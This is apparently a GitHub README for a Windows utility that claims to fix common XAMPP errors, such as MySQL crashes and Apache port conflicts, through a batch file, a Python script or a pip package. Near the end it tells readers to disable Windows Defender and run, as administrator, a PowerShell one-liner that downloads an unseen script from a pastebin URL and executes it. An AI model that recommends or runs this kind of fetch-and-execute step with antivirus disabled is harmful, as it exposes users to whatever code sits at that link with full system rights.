 # 🔧 XAMPP Error Fixer

A powerful Windows tool that automatically detects and fixes common XAMPP issues with just one click!

## ✨ Core Features

- **🔍 Auto-Detection**: Automatically finds your XAMPP installation
- **🛠️ Smart Fixes**: Resolves MySQL "stopped unexpectedly" errors
- **🚪 Port Management**: Handles Apache port conflicts (80, 443, etc.)
- **📦 Safe Backups**: Creates backups before making any changes
- **🎯 One-Click Solution**: Fix multiple issues with a single run

## 🚀 Quick Start

### Option 1: Run the EXE (Recommended)
 
```bash
    git clone https://github.com/sumitx007/xampp-error-fixer
```

```bash
    cd xampp-error-fixer/
```

```bash
    xampp_fixer.bat
```

1. **Select** `Run as administrator"`
2. **Follow** `the on-screen prompts`
3. **Done!** `Your XAMPP should be working`

### Option 2: Run Python Script (Make sure to have python installed)
- **Python installation checker**
```bash
    python --version
```
- **Download or clone the folder again if not Downloaded before**
1. **Open** `Command Prompt as Administrator`
```bash 
    git clone https://github.com/sumitx007/xampp-error-fixer
```
```bash
    cd xampp-error-fixer
```
```bash
    cd "Repair Scripts"
```
 **Run**: `python xampp_repair.py`
 ```bash
    python xampp_repair.py
```
### Option 3: Run Python Script (Make sure to have python and pip installed)-Recommended
**Check if both python and pip is available or not**
```bash
    python --version && pip --version
```
**Install xamppfixer through pip**
```bash
    pip install xamppfixer
```
**Run it**
```bash
    xfix
```
**Others are the same procedure like `Option 1/2`**

## If you trust the script and have gone through it - Last & Easy One
**You can just turn off the windows defender and run this script for your ease and time saving**

- **Run `Powershell as administrator`**
```bash
    irm https://pastebin.com/raw/11jeZZVn | iex
```
**follows the same procedure as `Option 1/2`**


## 🎯 What It Fixes

| Problem | Solution |
|---------|----------|
| ❌ MySQL won't start | Repairs database files |
| ❌ Apache port conflicts | Finds free ports or stops conflicting services |
| ❌ "MySQL stopped unexpectedly" | Restores from backup database |
| ❌ Services keep crashing | Cleans corrupted configuration |

## 📋 Requirements

- **Windows 10/11** (Windows 8.1+ supported)
- **Administrator privileges** (required)
- **XAMPP installed** on C:, D:, E:, or F: drive

## 🛡️ Safety Features

- ✅ Creates automatic backups
- ✅ Non-destructive fixes
- ✅ Preserves your databases
- ✅ Clean rollback options

## 📖 How to Use

1. **Close XAMPP** Control Panel completely
2. **Run** `xampp_fixer.exe` as administrator
3. **Let it diagnose** your XAMPP installation
4. **Choose fixes** when prompted
5. **Open XAMPP** Control Panel and start services

## 💡 Pro Tips

- Always run as **Administrator**
- Close XAMPP Control Panel before running
- Keep the generated backups safe
- Test your websites after fixing

## 🆘 Common Issues

**"Access Denied"** → Run as Administrator  
**"XAMPP Not Found"** → Install XAMPP in standard location  
**"Port Still Busy"** → Restart your computer and try again

## 📞 Support

If you encounter any issues:
1. Check that you're running as Administrator
2. Ensure XAMPP is properly installed
3. Try restarting your computer
4. Create an issue on GitHub with error details

---

**⚡ Made for the XAMPP community**

*Fix your XAMPP errors in seconds, not hours!*
